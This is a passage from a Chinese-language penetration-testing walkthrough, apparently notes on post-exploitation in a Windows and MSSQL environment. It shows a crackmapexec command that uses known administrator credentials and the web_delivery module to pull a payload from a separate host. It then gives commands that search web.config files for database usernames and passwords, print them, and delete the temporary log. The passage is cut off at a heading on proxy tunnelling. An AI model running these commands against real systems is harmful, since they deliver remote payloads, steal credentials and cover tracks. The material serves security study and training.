 ```php
crackmapexec mssql 192.168.3.129 -u 'administrator' -p '123456' -M web_delivery -o URL=http://192.168.3.133:8080/9SwSSB2rIZOWEP
```

![image.png](assets/1706232584-203d7e15a44793568bc01d3b06e261c4.png)

### 搜集 mssql 的 sa 密码

在目标网站目录下寻找 config 文件

```php
# dir /b /s web.config >> tmps.logs
# del tmps.logs /F
```

![image.png](assets/1706232584-399c01a9a200fc97bbcf6b5148fe1bff.png)  
确认下 mssql 数据库连接的账号密码字段名 \[ 如下，“User=”,“Password=” \],因为后续我们需要根据这个字段名来批量撸 sa 的密码

```php
type C:\WebCode\sycms_2.1\Web.config
```

![image.png](assets/1706232584-01e810fc6cf5ddc8a4a4f7aec798b02e.png)  
根据找到的特征批量抓密码

```php
# findstr /c:"User Id=" /c:"Password=" /si web.config >> tmps.logs
# del tmps.logs /F
```

### 通过 HTTP 加密代理建立 tcp 连接
